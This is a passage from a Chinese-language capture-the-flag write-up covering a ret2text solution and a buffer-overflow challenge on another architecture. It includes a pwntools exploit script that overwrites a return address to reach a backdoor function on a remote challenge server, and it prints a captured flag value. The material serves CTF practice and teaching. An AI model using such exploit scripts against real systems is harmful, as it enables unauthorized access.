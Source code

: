 运行结果如下

![ret2text-flag](../assets/ret2text-flag.png)

flag:

> flag{300c17b3-83e5-4f37-8ce3-9024890dd069}

### 异构

和**ret2text**一样的做法，不过指令集和架构不同。查看IDA发现**vuln**读取64字节但无限制，32位程序,偏移位**64+4=68**字节，**backdoor**函数从**0x400844**开始，编写脚本。

```python
from pwn import *

r = remote("47.76.55.63",27107)

move = 0x40+4
payload = move * b'a' + p32(0x400844)

r.sendline(payload)
r.interactive()
```

运行结果如下
